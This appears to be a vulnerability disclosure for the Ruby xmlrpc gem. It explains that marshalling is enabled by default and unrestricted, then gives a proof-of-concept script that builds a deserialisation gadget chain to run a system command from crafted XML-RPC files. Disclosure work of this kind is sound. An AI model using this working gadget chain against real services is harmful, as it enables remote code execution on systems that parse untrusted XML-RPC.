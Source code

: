 However, there are no class restrictions when parsing.

https://github.com/ruby/xmlrpc/blob/v0.3.2/lib/xmlrpc/config.rb#L27

```ruby
    # enable marshalling Ruby objects which include XMLRPC::Marshallable
    ENABLE_MARSHALLING   = true
```

`Config::ENABLE_MARSHALLING` is true by default so there is no limit to the classes that can be restored.

---

## PoC

### Prepare

create `build_xml.rb`

```ruby
require "xmlrpc/marshal"

# Universal Deserialisation Gadget for Ruby 2.x-3.x
# https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html

# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# Because the classes that can be dumped are limited
class Array
  def include?(_)
    true
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "date")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

creater = XMLRPC::Create.new
call_xml = creater.methodCall("for_call", r)
File.write('attack_call.xml', call_xml)

response_xml = creater.methodResponse("for_response", r)
File.write('attack_response.xml', response_xml)
```
